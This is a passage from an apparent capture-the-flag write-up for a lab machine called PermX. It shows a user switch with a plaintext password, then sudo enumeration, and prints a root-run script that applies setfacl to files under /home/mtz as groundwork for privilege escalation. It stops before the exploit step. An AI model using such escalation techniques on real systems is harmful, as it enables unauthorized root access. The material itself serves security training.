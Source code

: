 ```bash
www-data@permx:/var/www/chamilo/app/config$ su - mtz
Password:03F6lY3uXAP2bkW8
mtz@permx:~$ id
uid=1000(mtz) gid=1000(mtz) groups=1000(mtz)
```

## From mtz to root


### SUDO - Bash script : setfacl

```bash
mtz@permx:~$ sudo -l
Matching Defaults entries for mtz on permx:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User mtz may run the following commands on permx:
    (ALL : ALL) NOPASSWD: /opt/acl.sh
```

- The script uses `setfacl` to give arbitrary user arbitrary permission over files and folders that are under `/home/mtz/`
- It filters out `..` to prevent directory traversal

```bash
mtz@permx:~$ ls -la /opt/acl.sh
-rwxr-xr-x 1 root root 419 Jun  5 11:58 /opt/acl.sh
mtz@permx:~$ cat /opt/acl.sh

#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi


# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
```
